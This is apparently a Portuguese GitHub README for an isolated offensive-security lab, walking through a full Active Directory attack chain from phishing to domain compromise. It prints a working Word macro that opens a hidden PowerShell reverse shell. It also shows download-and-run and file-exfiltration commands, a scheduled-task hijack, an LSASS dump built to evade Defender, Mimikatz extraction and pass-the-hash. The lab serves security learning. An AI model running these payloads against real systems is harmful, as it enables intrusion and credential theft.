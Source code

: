 ### **Em construção...... Analise pos ataque em construção**


# Simulação de Cadeia de Ataque - Laboratório de Segurança Ofensiva
<br>
<br>

## Objetivo

Esta parte do projeto é a continuação do projeto anterior [Windows Server AD](https://github.com/MercioRodrigues/Windows-server-AD/blob/main/README.md), no qual foi construído, em laboratório, um ambiente Active Directory. Foram também utilizadas ferramentas que já tinham sido preparadas em outro projeto que realizei anteriormente, o [SOC SOAR Project](https://github.com/MercioRodrigues/SOC-SOAR-Project), nomeadamente o **Wazuh**.  
<br>  
Esta fase tem como objetivo simular uma cadeia de ataque realista em um ambiente de domínio Windows, sem detecção por parte do Windows Defender, explorando diferentes etapas de comprometimento típicas de atacantes reais. A simulação foi conduzida em um laboratório controlado, permitindo, posteriormente, a análise detalhada de cada fase da intrusão.


A cadeia de ataque envolve as seguintes etapas:

1. [Acesso inicial:](#-fase-1---acesso-inicial-via-macro-em-documento-word-phishing) comprometimento de uma estação de trabalho através da execução de uma macro maliciosa em um documento do Word.
2. [Escalada de privilégios local:](#-fase-2--escalada-de-privil%C3%A9gios-local) obtenção de privilégios SYSTEM explorando uma tarefa agendada mal configurada.
3. [Enumeração do dominio:](#-fase-3--enumera%C3%A7%C3%A3o-p%C3%B3s-escala%C3%A7%C3%A3o) Enumerar o ambiente local e de domínio e avaliar a viabilidade de extrair as credenciais da memória (lsass.exe).
4. [Exfiltração de credenciais e Acesso ao DC:](#fase-4--extra%C3%A7%C3%A3o-de-credenciais-e-acesso-ao-dc) extração da memória do processo LSASS para capturar credenciais em texto claro e hashes NTLM e acesso ao controlador de domínio (Domain Controller) utilizando técnicas de Pass-the-Hash.
 

**Análise pós-ataque**: utilização de ferramentas de monitorização e deteção como **Wazuh** e **Wireshark** para investigar a intrusão e compreender os rastros deixados nos logs do sistema e na rede.

O objetivo final é obter não apenas uma shell no controlador de domínio, mas também documentar detalhadamente os indicadores de comprometimento (IoCs), comportamentos suspeitos e evidências forenses que podem ser usadas por equipes de defesa para deteção precoce e resposta a incidentes.

---

⚠️ *Aviso: Este projeto foi realizado exclusivamente para fins educacionais e em ambiente isolado. Nenhuma das técnicas aqui descritas deve ser utilizada em ambientes reais sem autorização explícita.*


<br>
<br>

## 🧪 Fase 1 - Acesso Inicial via Macro em Documento Word (Phishing)

Nesta fase inicial, o atacante utilizou **engenharia social (phishing)** para induzir um colaborador da organização a abrir um documento Word malicioso. O documento continha uma macro em VBA (Visual Basic for Applications) configurada para executar automaticamente ao abrir o ficheiro.

###  Objetivo

Obter uma **shell reversa PowerShell** no sistema da vítima sem levantar suspeitas, utilizando `Wscript.Shell` para evadir políticas de execução e manter a execução em segundo plano.

---

### Conteúdo da Macro

A macro maliciosa foi inserida no Editor do Visual Basic para Aplicações, dentro do módulo `NewMacros`. O código é dividido em duas partes:

- `AutoOpen()`: executa a macro automaticamente ao abrir o ficheiro
- `test()`: define e executa o payload PowerShell em modo oculto

```vb
Sub AutoOpen()
    Call test
End Sub

Sub test()
    ' test Macro
    Dim objshell As Object
    Set objshell = CreateObject("Wscript.Shell")
    objshell.Run "powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ""$command = {while($true){try {$cl = New-Object System.Net.Sockets.TcpClient('192.168.1.205',443);$st = $cl.GetStream();$rd = New-Object IO.StreamReader($st);$wr = New-Object IO.StreamWriter($st);$wr.AutoFlush = $true;while($cl.Connected){$cmd = $rd.ReadLine();if($cmd -eq 'exit'){break;}try{$res = iex $cmd 2>&1 | Out-String;}catch{$res = $_.Exception.Message;} $wr.WriteLine($res);$wr.Flush();}$cl.Close();}catch{Start-Sleep -Seconds 10;}}}; Start-Process powershell -WindowStyle Hidden -ArgumentList '-NoProfile', '-ExecutionPolicy', 'Bypass', '-Command', $command"""
    Set objshell = Nothing
End Sub
```

<p align="center">
 
  <br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/14196c25-96e6-43dc-b1f4-ce14bd0be6be" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

---

### Listener do Atacante

Enquanto o documento era aberto pela vítima, o atacante encontrava-se à escuta na máquina Kali, utilizando `netcat` com `rlwrap` para suportar histórico e edição de linha:

```bash
rlwrap nc -lvnp 443
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/1d6fd6d7-a226-44c2-a28a-da105117975d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resumo**

O código PowerShell embutido na macro estabelece uma conexão TCP reversa para o endereço do atacante (192.168.1.205) na porta 443. Após a conexão, o script entra num loop que:

**1.** Recebe comandos enviados pelo atacante

**2.** Executa os comandos localmente com Invoke-Expression (iex)

**3.** Envia a saída da execução de volta através do canal TCP

Este tipo de técnica é comum em ataques fileless, pois evita gravações em disco e contorna políticas de execução do PowerShell.

 <br/>
    <br/>

## 🧪 Fase 2 — Escalada de Privilégios Local

Após o acesso inicial, o próximo objetivo foi escalar privilégios para obter controlo total do sistema como **NT AUTHORITY\SYSTEM**.  
Esta fase consistiu na **descoberta e exploração de uma tarefa agendada mal configurada**, permitindo a execução de código com permissões elevadas.

---

### 1. Preparação do Ambiente de Investigação

Foi criado um servidor de upload/download em Python na máquina atacante para facilitar a transferência de ficheiros entre as máquinas:

```bash
python3 upload_server.py
# [+] Serving HTTP upload/download server at port 8080
```

---

### 2. Execução do WinPEAS e Exfiltração do Output

Na shell da vítima, foi executado o `winPEASps1.ps1`, e a saída foi guardada num ficheiro `.txt`:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.205:8080/winPEASps1.ps1') | Out-File "$env:USERPROFILE\Downloads\winpeas.txt" -Encoding ASCII
```

Em seguida, o ficheiro foi exfiltrado para a máquina do atacante:

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/winpeas.txt" -Method PUT -InFile "C:\Users\jsilva\Downloads\winpeas.txt"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/d11db3f6-816b-45a4-b7a7-11ef05ae2246" height="60%" width="60%"/>
    <br/>
    <br/>
    <img src="https://github.com/user-attachments/assets/1cd6ede9-e275-484c-9a32-ac27e3fbdcac" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>



---

### 3. Análise do Output do WinPEAS

Na máquina atacante, o output foi segmentado por tarefas agendadas:

```bash
awk '
/^TaskName:/ {
    ++i;
    f = sprintf("task_%03d.txt", i);
}
f { print > f }
' winpeas.txt
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/1dacf129-6f1a-4b05-8fcb-f7febbe8d0bb" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

Depois, filtrou-se por tarefas que correm como `SYSTEM`:

```bash
grep -l "Run As User: *SYSTEM" task_*.txt > SYSTEM_tasks.txt
```

E procuraram-se scripts suspeitos:

```bash
grep -Ei "ps1|bat|cmd|exe" $(cat SYSTEM_tasks.txt) | grep -i "task to run"
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/845d809a-25e0-4a1a-b050-028f2f5db977" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Foi identificado a seguinte tarefa crítica:

```text
task_012.txt:Task To Run: powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -File C:\TempTask\svc_launcher.ps1
```

Lendo o conteudo de **task_012.txt** conseguimos obter a informação mais completa sobre a tarefa.

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/c523e3eb-39da-4398-b588-4091550ed2bf" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

---

### 4. Verificação de Permissões

Foi verificado que o utilizador comprometido (`jsilva`) tinha permissões de **controlo total** sobre o ficheiro `.ps1` usado pela tarefa:

```powershell
icacls C:\TempTask\svc_launcher.ps1
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/875ef2f9-e9af-465e-b1c8-45014cca5b24" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Saída relevante:

```
PILAO\jsilva:(I)(F)          → Full control — pode sobrescrever este ficheiro
NT AUTHORITY\SYSTEM:(I)(F)   → A tarefa agendada corre o script como SYSTEM
```

---

### 5. Substituição do Script e Execução da Tarefa

Foi feito o upload de um **script malicioso** com reverse shell, substituindo o original:

```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://192.168.1.205:8080/svc_launcher.ps1' -OutFile 'C:\TempTask\svc_launcher.ps1'"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/4d36fb25-f3e4-47c3-b7c3-4efe2c2cf370" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Como a tarefa era configurada para correr ao arrancar o sistema, pode-se esperar que a vitima inicie a máquina mas, como tratasse de um laboratório forcei o reinício:

```powershell
Restart-Computer -Force
```

---

### 6. Resultado — Shell como SYSTEM

Na máquina atacante, aguardou-se ligação à porta 4444:

```bash
rlwrap nc -lvnp 4444
```

Após o reinício da vítima:

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/448ad18a-e3b8-4bee-b28b-f0d69decd94f" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>




A escalada foi bem-sucedida! O atacante obteve **acesso completo com privilégios SYSTEM**.

---

### Resumo

A má configuração de permissões num script chamado por uma tarefa agendada como SYSTEM foi explorada com sucesso para **escalar privilégios localmente**.

A utilização do `winPEAS` permitiu descobrir a vulnerabilidade, a análise de permissões confirmou a possibilidade de exploração, e a substituição do script permitiu ganhar **controlo total do sistema**, com acesso **persistente**.

<br/>
<br/>

## 🧪 Fase 3 – Enumeração Pós-Escalação

Após escalar privilégios locais até `NT AUTHORITY\SYSTEM`, o objetivo passou a ser:

- **Enumerar o ambiente local e de domínio**  
- **Avaliar a viabilidade de extrair credenciais da memória (`lsass.exe`)**

---

### 1. Verificar se a máquina está num domínio

```powershell
systeminfo | findstr /B /C:"Domain"
```

**Resultado:**

```
Domain: pilao.pt
```

✅ Isto confirma que a máquina está unida ao domínio `pilao.pt`. Esse facto é importante porque credenciais de **utilizadores do domínio** podem estar armazenadas em memória, especialmente se fizeram login interativo recentemente.

---

### 2. Obter o hostname da máquina comprometida

```powershell
hostname
```

**Resultado:**

```
Client1
```

Esta informação ajuda a identificar o endpoint dentro da infraestrutura.

---

### 3. Listar utilizadores locais e de domínio

```powershell
wmic useraccount get name,sid
```

🔍 Procura por utilizadores olhando para o `RID`:

- `500` → Administrator  
- `502` → krbtgt (conta usada pelo Kerberos)  
- `1000+` → contas personalizadas  

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b1e32638-eeb0-4172-b39f-899b302a4ac4" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

```powershell
net group "Domain Admins" /domain
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/4a37c0e3-06c1-47da-bbc6-865846bea87b" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultado:**

```
Group name     Domain Admins
Members:
  Administrator
```

✅ A presença do utilizador `Administrator` no grupo `Domain Admins` confirma que este tem **controle total** sobre o domínio.

---

### 4. Ver permissões

```powershell
whoami /all
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/023e075c-27b1-4029-a32c-29dceddff2b9" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultados importantes:**

User: NT AUTHORITY\SYSTEM

Groups:
- BUILTIN\Administrators
- NT AUTHORITY\SERVICE
- NT AUTHORITY\Authenticated Users
- NT AUTHORITY\This Organization
- LOCAL
- NT SERVICE\Schedule

Previlégios:
**SeDebugPrivilege:** ✅ Enabled

✅ Isto confirma:
- Estamos como NT **AUTHORITY\SYSTEM**
- Com **privilégios máximos no domínio**
- E com o privilégio **SeDebugPrivilege**, necessário para ler a memória de lsass.exe




🚨 O privilégio `SeDebugPrivilege` permite ler a memória de processos de outros utilizadores, inclusive do `lsass.exe`.

---

### 5. Enumerar os Controladores de Domínio (Domain Controllers)

```powershell
nltest /dclist:pilao.pt
```

**Resultado:**

```
Marcio.pilao.pt [PDC]
```
<br/>
<br/>

**Comando**

```powershell
nslookup -type=SRV _ldap._tcp.dc._msdcs.pilao.pt
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/fa036c25-c1b6-4673-98c9-df17860bed9d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultado:**

```
_ldap._tcp.dc._msdcs.pilao.pt   SRV service location:
    svr hostname = marcio.pilao.pt
    svr hostname = server2.pilao.pt

marcio.pilao.pt -> 192.168.1.200  
server2.pilao.pt -> 192.168.1.201
```

✅ Identificar os Domain Controllers é essencial para **movimento lateral**.

---

### 6. Verificar partilhas administrativas no domínio

```powershell
net view \\pilao.pt
```

**Resultado:**

```
NETLOGON    Disk    Logon server share
SYSVOL      Disk    Logon server share
```

**Estes são diretórios críticos do AD, usados para scripts de login e políticas de grupo (GPOs).** 

---

### 7. Testar acesso ao C$ (Admin Share) no DC

```powershell
Start-Process cmd -ArgumentList '/c net use \\pilao.pt\C$' -WindowStyle Hidden
```

```powershell
Get-SmbConnection | Select-Object -Property ShareName, ServerName, UserName
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/d0b0f854-9e95-483a-97ec-383e0e512ea7" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resultado:**

```
ShareName ServerName       UserName
--------- -----------      --------
IPC$      Marcio.pilao.pt  PILAO\CLIENT1$
C$        pilao.pt         PILAO\Administrator
```

✅ Isto confirma que a shell atual tem acesso **total** ao sistema de ficheiros do DC via `C$` — partilha administrativa para administradores.

---

### Implicações para o Atacante

Com estes dados confirmados:

- ✅ Shell com privilégios de **Domain Admin**  
- ✅ Acesso SMB autenticado ao Domain Controller  
- ✅ Capacidade para:   
  - Exfiltrar credenciais  
  - Iniciar **movimento lateral** (pivoting) ou **persistência em domínio**

---

### Conclusão da Fase 3

Com privilégios de `NT AUTHORITY\SYSTEM` e verificação de que estamos como **Domain Admin**, foi possível confirmar que o sistema comprometido é uma excelente base para:

- Extração de credenciais da memória (`lsass.exe`).
- Acesso irrestrito ao domínio.  

---

<br/>
    <br/>

## 🧪Fase 4 — Extração de Credenciais e Acesso ao DC

Após a obtenção de privilégios SYSTEM, o objetivo passou a ser capturar credenciais da memória do processo `lsass.exe`, de forma furtiva e sem acionar o Defender. Essas credenciais permitiram depois acesso ao Controlador de Domínio.

---

### 1. Compilar o NativeDump no Kali Linux

A ferramenta utilizada foi o **NativeDump** (versão em Golang), que depois de sofrer cross-compilation não foi detetável por soluções como o Windows Defender.

```bash
wget https://raw.githubusercontent.com/ricardojoserf/NativeDump/main/golang-flavour/nativedump.go
```

Inicialização do projeto Go:

```bash
go mod init nativedump
go mod tidy
```

Compilação para Windows (cross-compilation):

```bash
env GOOS=windows GOARCH=amd64 go build nativedump.go
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/a252cd72-e443-4422-a4e3-d41527263962" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>



✅ Gera o ficheiro `nativedump.exe`, pronto para transferência.

---

### 2. Transferência do Executável para a Vítima

```powershell
Invoke-WebRequest -Uri "http://192.168.1.205:8080/nativedump.exe" -OutFile "C:\Windows\Temp\nativedump.exe"
cd C:\Windows\Temp
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/bccb6186-b9d4-468a-b900-b3eb673126bf" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

Transferência feita sem levantar alertas.

---

### 3. Dump de LSASS

```powershell
.\nativedump.exe -o .\proc_664.dmp
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/3125424b-68fa-4579-a267-79478a053e1e" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

✅ O NativeDump identificou automaticamente o PID do processo `lsass.exe` e gerou um dump da sua memória sem alertar o Windows Defender. Este dump incluiu credenciais e hashes em uso no momento.

---

### 4. Exfiltrar o Dump para o Atacante

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/proc_696.dmp" -Method PUT -InFile "C:\Windows\Temp\proc_696.dmp"
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/69713f1e-ff9c-4051-9ad8-6ca858fcae0f" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

✅ O dump foi transferido com sucesso para análise offline no Kali.

---

### 5. Análise com Mimikatz

A análise do ficheiro `.dmp` foi feita offline no Kali com **Mimikatz**, via `wine`:

```bash
wine mimikatz.exe
```

Comandos utilizados:

```mimikatz
sekurlsa::minidump /home/kali/Downloads/uploadserver/proc_696.dmp
sekurlsa::logonPasswords
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/30aa347b-b5bb-4763-a773-a5f013692b45" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/760f2bf8-63d6-42ba-9143-596a1c739a0d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Output relevante:**

```
Username : Administrator 500
NTLM     : a1f074c272b7d460ccdd7f8f19c5419b
Já sabemos que pertence ao domínio PILAO e o DC tem IP:192.168.1.200 
```

✅ Obtido o hash NTLM do utilizador `Administrator` (confirmado como membro do grupo `Domain Admins`).

---

### 6. Acesso Remoto com Pass-The-Hash

Com as informações necessárias e o hash NTLM em posse, foi possível autenticar no **Controlador de Domínio** remotamente:

```bash
python3 ~/impacket/examples/wmiexec.py PILAO/Administrator@192.168.1.200 -hashes :a1f074c272b7d460ccdd7f8f19c5419b
```


<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b990afa8-37c4-4eca-9e0f-9f8b189664e5" height="100%" width="100%"/>
    <br/>
    <br/>
  <p/>

Shell remota estabelecida:

```cmd
C:\> whoami
pilao\administrator
```

---

### ✅ Resultado

O atacante agora detém controlo completo sobre o domínio:

- Acesso ao **DC (Domain Controller)**
- Permissões de **Administrador de Domínio**
- Capacidade de:
  - Extrair hashes de toda a base de utilizadores
  - Modificar políticas de grupo (GPOs)
  - Criar utilizadores e persistência
  - Efetuar **movimentações laterais**
  - Lançar ataques como Golden Ticket ou DCSync

---





